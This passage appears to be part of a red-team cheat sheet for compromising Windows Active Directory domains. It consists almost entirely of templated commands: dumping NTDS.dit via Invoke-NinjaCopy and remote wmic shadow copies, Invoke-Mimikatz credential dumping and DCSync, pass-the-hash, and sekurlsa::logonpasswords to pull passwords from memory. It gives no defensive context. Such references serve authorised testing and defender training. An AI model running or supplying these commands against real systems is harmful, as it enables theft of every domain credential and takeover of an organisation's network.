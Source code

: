 <span id="anchor-284"></span>Dump Active Directory NTDS.dit with
Invoke-NinjaCopy

|                                                                                                                       |
| --------------------------------------------------------------------------------------------------------------------- |
| Invoke-NinjaCopy -Path “**\<path\>**\\ntds.dit” -ComputerName “**\<DCName\>**” -LocalDestination “**\<outputfile\>**” |

<span id="anchor-285"></span>Dump Active Directory NTDS.dit with Volume
Shadow Copy

<table>
<tbody>
<tr class="odd">
<td><p>wmic /node:<strong>&lt;DC FQDN&gt;</strong> /user:<strong>&lt;domain&gt;</strong>\<strong>&lt;user&gt;</strong> /password:<strong>&lt;password&gt;</strong> process call create “cmd /c vssadmin create shadow /for=<strong>&lt;driveletter</strong>&gt;: 2&gt;&amp;1 &gt; <strong>&lt;logfile&gt;</strong></p>
<p>wmic /node:<strong>&lt;DC FQDN&gt;</strong> /user:<strong>&lt;domain&gt;</strong>\<strong>&lt;user&gt;</strong> /password:<strong>&lt;password&gt;</strong> process call create “cmd /c copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\<strong>&lt;NTDS.dit_Path&gt;</strong> <strong>&lt;destination_path&gt;</strong> 2&gt;&amp;1 &gt; <strong>&lt;logfile&gt;</strong></p>
<p>wmic /node:<strong>&lt;DC FQDN&gt;</strong> /user:<strong>&lt;domain&gt;</strong>\<strong>&lt;user&gt;</strong> /password:<strong>&lt;password&gt;</strong> process call create “cmd /c copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM <strong>&lt;destination_path&gt;</strong> 2&gt;&amp;1 &gt; <strong>&lt;logfile&gt;</strong></p></td>
</tr>
</tbody>
</table>

<span id="anchor-286"></span>Invoke-MimiKatz Retrieve All Credentials

|                                            |
| ------------------------------------------ |
| Invoke-Mimikatz -ComputerName **\<host\>** |

<span id="anchor-287"></span>Invoke-MimiKatz Retrieve Credentials for a
Single User from a DC

|                                                                                                           |
| --------------------------------------------------------------------------------------------------------- |
| Invoke-Mimikatz -Command “lsadump::dcsync /domain:**\<domain FQDN\>** /user:**\<domain\>**\\**\<user\>**” |

<span id="anchor-288"></span>Invoke-MimiKatz Pass-the-Hash (PTH)

|                                                                                                                            |
| -------------------------------------------------------------------------------------------------------------------------- |
| Invoke-Mimikatz -Command “sekurlsa::pth /user:**\<user\>** /domain:**\<domain\>** /ntlm:**\<hash\>** /run:**\<program\>**” |

<span id="anchor-289"></span>MimiKatz Get Logon Passwords (From Memory)

<table>
<tbody>
<tr class="odd">
<td><p>privilege::debug</p>
<p>sekurlsa::logonpasswords</p></td>
</tr>
</tbody>
</table>
